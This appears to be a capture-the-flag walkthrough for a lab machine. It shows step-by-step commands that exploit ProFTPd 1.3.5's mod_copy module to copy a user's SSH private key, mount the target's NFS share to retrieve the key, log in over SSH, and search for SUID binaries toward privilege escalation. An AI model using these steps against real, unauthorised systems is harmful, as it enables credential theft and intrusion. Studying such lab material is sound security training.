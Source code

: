 As searchsploit is a great tool to show more information about vulns along content in exploit-db we install it manually if not using Kali:
```
cd /opt
git clone https://github.com/offensive-security/exploitdb.git
export PATH=/opt/exploitdb:$PATH
git clone https://github.com/offensive-security/exploitdb-papers.git
searchsploit proftpd 1.3.5
```

Result (excerpt):
```
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                     | exploits/linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                           | exploits/linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                     | exploits/linux/remote/36742.txt
```
Obviously, this version is vulnerable to [SITE CPFR and SITE CPTO commands](http://www.proftpd.org/docs/contrib/mod_copy.html).

```
nc target 21
--> 220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.121.24]
SITE CPFR /home/kenobi/.ssh/id_rsa
--> 350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
--> 250 Copy successful
```

Now we mount the network share:
```
apt install cifs-utils nfs-common #in case this is not installed
mkdir /mnt/kenobiNFS
sudo mount target:/var /mnt/kenobiNFS/
ls -la /mnt/kenobiNFS
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 600 id_rsa
ssh-keygen -f "/home/ubuntu/.ssh/known_hosts" -R "target" #in case we get a DNS SPOOFING alert
ssh kenobi@target -i id_rsa
```

You can now login through `ssh kenobi@target -i id_rsa`.

First, get the user flag: `cat user.txt`. Afterwards, let's find some sticky bits: `find / -perm -u=s -type f 2>/dev/null`.

One file is standing out: `/usr/bin/menu`, run it.

It gives three option. Let's examine the executable with `strings /usr/bin/menu`.

You will see the corresponding commands:
```
curl -I localhost
uname -r
ifconfig
```
